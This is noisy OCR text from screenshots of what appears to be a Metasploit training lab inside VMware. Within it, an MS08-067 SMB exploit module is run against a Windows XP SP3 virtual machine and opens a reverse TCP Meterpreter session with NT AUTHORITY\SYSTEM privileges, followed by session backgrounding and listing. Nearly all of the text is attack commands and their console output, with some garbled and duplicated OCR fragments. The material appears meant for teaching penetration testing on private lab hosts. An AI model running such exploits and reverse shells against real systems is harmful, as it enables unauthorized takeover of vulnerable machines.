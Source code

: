 hongkeketang - VMware Workstation
文件D 编项E 查看Y 虚拟机M） 选项卡D 帮动（H）
&
hongkeketang
□Windows Server 2008 R2 x64
Windows XP Professional
Shell No.1
02：43下午
Shel No.1
文件（F） 动作（A） 编辑（E） 查看（V） 帮助（H）
msf5 exploit(windows/smb/ms08_067_netapi) > set lport 5555 msf5 exploit(windows/smb/ms08_067_netapi) > run
lport→5555
[*] Started reverse TCP handler on 192.168.152.128:5555
[*] 192.168.152.140:445 - Automatically detecting the target...
[*] 192.168.152.140:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.152.140:445-Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.152.140:445 - Attempting to trigger the vulnerability...
[*]
Sending stage (176195 bytes) to 192.168.152.140
[*] Meterpreter session 1 opened (192.168.152.128:5555 → 192.168.152.140:1033) at 2020-07-06 14:43:30 +0800 l
meterpreter > background
[*] Backgrounding session 1…..
msf5 exploit(windows/smb/ms08_067_netapi) > sessions
Active sessions
---------------
Id
Name
Type
Information
Connection
92.168.152.140) 1
meterpreter x86/windows NT AUTHORITY\SYSTEM a ADMIN-C584843A5 192.168.152.128:5555 → 192.168.152.140:1033 (1
msf5 exploit(windows/smb/ms08_067_netapi) >
OBS 25.0.8 (64-b
新建标篮页—个人一
视频
hongkeketang-
35.Metasploit:



hongkeketang - VMware Workstation
文件旧 编城E） 查看Y 虚拟机M） 选项卡D 帮助（H）
hongkeketang
□Windows Server 2008 R2 x64
Windows XP Professional
Shell No.1
02：44下午
Chell No 1
文件（F） 动作（A） 编辑（E） 查看（V） 帮助（H）
[*]
Backgrounding session 1…..
msf5 exploit(windows/smb/ms08_067_netapi) > sessions
Active sessions
----
Id Name Type
Information
Connection
meterpreter x86/windows NT AUTHORITY\SYSTEM a ADMIN-C584B43A5 192.168.152.128:5555 → 192.168.152.140:1033 (1 92.168.152.140)
1